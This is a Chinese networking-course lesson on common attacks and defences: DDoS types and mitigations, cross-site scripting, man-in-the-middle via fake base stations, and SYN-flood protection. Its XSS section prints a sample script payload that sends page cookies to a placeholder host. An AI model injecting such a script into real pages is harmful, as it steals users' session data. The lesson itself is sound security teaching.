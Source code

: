 ```yaml
---
created: 2021-10-11
tags: []
source: https://kaiwu.lagou.com/course/courseInfo.htm?courseId=837#/detail/pc?id=7263
author: 
---
```


# [计算机网络通关 29 讲 - 前阿里高级技术专家（P8）- 拉勾教育](https://kaiwu.lagou.com/course/courseInfo.htm?courseId=837#/detail/pc?id=7263)


安全无小事。2016 年 DNS 提供商 Dyn 遭遇了一次大规模的 DDoS（分布式拒绝服务攻击），有 14000 个网站域名受到影响。2020 年 7 月份，Twitter 遭大规模攻击，黑客控制了包括马斯克、盖茨、奥巴马等人的 Twitter 账号，诱导用户购买比特币，最终骗取了 11W 美金。2021 年 4 月份，还有黑客利用 Github 的 Actions（Github 的一种 CI/CD 方案），诱导用户进行 git 操作时触发恶意比特币的矿机。

特别是在中国这种人口基数大，互联网发达的国家，如果一个互联网公司的安全出了故障，那么影响将是巨大的。前几年，我们国家出现过一起影响较大的安全问题——某知名技术社区用户的用户名和密码被大规模泄露。前车之鉴、后车之覆，我们要吸取教训。因此，这一讲我们就以“**如何抵御 SYN 拒绝攻击**”为引，开启今天的学习，让你对网络安全的常见攻防手段有一个初步了解。

### 拒绝服务攻击（DoS)

**拒绝服务攻击**（**Denial-of-Service Attack，DoS**）**是一种常见的攻击手段**。虽然目前互联网越来越趋向于正规化，但是对于黑产还有利用 DoS 攻击黑吃黑的现象。比较常见的就是热血传奇这款游戏的私服，搭建一个私服可以获得大额非法收入，但是因为是黑产也会经常受到黑客的攻击。黑客攻击后，再发邮件到管理员邮箱索取金钱，威胁用户不尽快打款就会一直攻击。

在过去，黑产间的攻阀，DoS 就可以作为一种常见武器。**DoS 的原理就是利用大量的流量迅速向一个网站发送出去**。这种流量可能是应用层的，比如大量 HTTP 请求；也可以是传输层，比如大量的 TCP 请求。比如 2018 年 2 月 18 日，Github 就遭受了一场超大规模的 DoS 攻击，瞬间流量峰值达到了 1.35Tbps。之后，黑客还对 Google、亚马逊等网站也进行了攻击。

为了形成足够强大的流量，攻击者往往没有足够的经济实力购买机器，而是利用中病毒、木马的机器组织流量攻击。这些中病毒的机器，我们俗称“肉鸡”。顶级的黑客往往控制着大量的肉鸡，一声令下，肉鸡就开始疯狂向目标发送网络封包，直到打垮目标。因为肉鸡是分散在世界各地的，因此这种攻击我们也称为**分布式拒绝服务攻击**（**Distributed Denial-of-Service Attack， DDoS**）。

#### DDoS 的种类

DDoS 的种类有很多，手段也很复杂。

-   直接不停发送 Ping 消息的，利用底层的 ICMP 协议，称为**ICMP 攻击；**
    
-   走 UPD 协议的，称为**UDP 洪水**（**UDP Flood**）；
    
-   不停利用 TCP 协议发送 SYN 消息的，也叫**SYN 攻击；**
    
-   模拟用户行为，不停发帖、浏览帖子、浏览网页、加购物车等，称为**挑战黑洞攻击**（**Challenge Collapsar**）。
    

#### 防范措施

当遇到 DDoS 攻击的时候，如果有所准备，就可以做到有备无患。比如说购买了防火墙，防火墙会根据特征识别出攻击行为，通过这样的方式将攻击行为过滤掉，让系统不会因为 DDoS 而过载造成崩溃。

当然如果是纯粹的流量攻击，仅仅靠防火墙是不够的。通常一些大型互联网公司会进行多活建设。一般是两地三机房，分别是日常生产环境、同城灾备环境和异地灾备环境，遇到 DDoS 可以考虑切换流量，也能起到一定作用。

另外 CDN 在解决 DDoS 时往往也有很好的效果，毕竟 CDN 是大量缓存节点，DDoS 攻击 CDN 的时候用不上力。当然，如果资金不足以购买服务器的小团队，可以自己实现软件防火墙。其实就是设计一台吞吐量极高的代理服务器，作为反向代理挡在所有服务前面，如果遇到 DDoS，代理服务器可以识别出一些特征并丢弃一些流量。

在遇到攻击的时候，对服务适当降级也是有必要的，甚至可以牺牲一部分用户保全另一部分用户的正常使用。防火墙是基于特征识别，本身也会有一定的误杀现象，在被攻击的时候，可以人为降低判定攻击行为的门槛。通过允许防火墙造成一部分的误伤来识别出更多的攻击流量。

### 跨站脚本攻击（XSS）

接下来我们讨论另一种攻击——**跨站脚本攻击**。

2021 年 2 月印度的一名测试工程师在苹果 iCloud 官网中发现了一个跨站脚本攻击漏洞，并向苹果公司提交了具体的漏洞说明和触发的操作步骤。事后，苹果公司给这名印度人发放了 5000 美金的奖金。

**跨站脚本（Cross Site Scripting），顾名思义，就是利用漏洞将脚本注入网页中**。比如提交个人信息的输入框，如果在服务端没有处理好就有可能触发跨站脚本。

假设有一个输入个人签名的多行文本输入框，正常用户会输入几句有趣的话，但是黑客可能会尝试输入：

```
<script>document.createElement('img').src="https://some.site.com?cookie=document.cookie"</script>
```

如果这段话被显示到用户的个人主页，那么访问这个用户空间的其他用户就会被攻击，进而被黑客拿走 Cookie 中的关键信息。

XSS 攻击模式很简单，就是想办法向网站的页面上注入脚本。总的来说，输入框是一个重灾区。目前随着前端技术的发展，使用前端框架，比如 React 或 Vue 开发的页面已经杜绝了被 XSS 的可能。但是有时候如果工作出现某些疏漏，还是会导致 XSS 的发生。所以正确的做法是上线前拜托安全部门的同学协助进行一些针对 XSS 漏洞的扫描。

### 中间人攻击

接下来我们聊聊**中间人攻击**。

我们国家目前在打击网络电信诈骗案中，就有这样一种形式。一些不法分子利用伪基站，比如找一个人多的地方，用自己的伪基站设备伪装成基站，向用户提供网络。一些离不法分子较近的人，手机可能会连接上伪基站。连接上后，不法分子的伪基站就成了你上网的代理，可以进行很多非法操作。因此，从这个角度看，中间人黑进你附近的网络，成为你上网的“代理”，并不是非常难的一件事情。不懂技术的犯罪分子，通过购买伪基站设备，就可以充当中间人。

在遇到中间人攻击时，互联网的信用体系、操作系统、浏览器等就会帮你把好最后一关。比如你访问淘宝购物，中间人向你投放假网页。浏览器就会去验证这个假网页的证书，是不是淘宝的证书。去年 Github 在国内疑似被中间人攻击的案例中，国内很多用户看到的现象是浏览器提示用户浏览的网站不安全。这种情况就是浏览器在校对证书的时候发现了疑点。如果你上网遇到这种情况应该选择立即关闭这个网页，不进行后续的操作，防止被骗。

### 总结

生活在当今时代，作为个人，网络安全是一件大事。你的购票信息、出行记录、账号密码、位置信息等，都需要你有防范意识，防止被不法分子拿走。在为公司工作的时候，要保管好自己的账号。特别是你工作用的计算机，要远离非正规渠道获得的软件。你的工作计算机一旦中了木马，成了肉鸡，那不法分子完全可以用你的工作计算机作为跳板，登录公司服务器。

另一方面，作为公司和团队，也要有较强的安全意识。当然，安全领域有自己的专业知识和人才。在互联网产品初期，往往承担不起昂贵的防火墙和雇佣安全专家的费用，这个时候需要开发者主动去学习安全知识，尽可能提升被攻破的成本。当业务发展到一定程度后，就需要马上雇佣安全专家，以及购买包括防火墙在内的网络安全设备。

好的，那么通过这一讲的学习，你现在可以尝试来回答：如何抵御 SYN 拒绝攻击？

【**解析**】SYN 攻击是 DDoS 攻击的一种形式。这种形式攻击者伪装成终端不停地向服务器发起 SYN 请求。通常攻击者的肉鸡，发送了 SYN 之后，不等给服务端 ACK，就下线了。 这样攻击者不断发送 SYN ，然后下线，而服务端会等待一段时间（通常会在 3s 以上），等待 ACK。这样就导致了大量的连接对象在服务端被积累。

针对这个特点可以实现一个 TCP 代理（防火墙），发现有发送 SYN 但是不给 ACK 的行为就对目标 IP 地址禁用一段时间。这个策略平时可以配置成开关，等到被攻击的时候打开。另一方面，可以适当提升连接数支持。

### 思考题

最后给你出一道需要查资料的思考题目：哪些情况下你服务器的 /etc/passwd 文件会被黑客拿走？

这一讲就到这里，发现求知的乐趣，我是林䭽。感谢你学习本次课程，下一讲是《模块五思考题解答》，希望你自己完成题目后再来看答案和分析。再见！
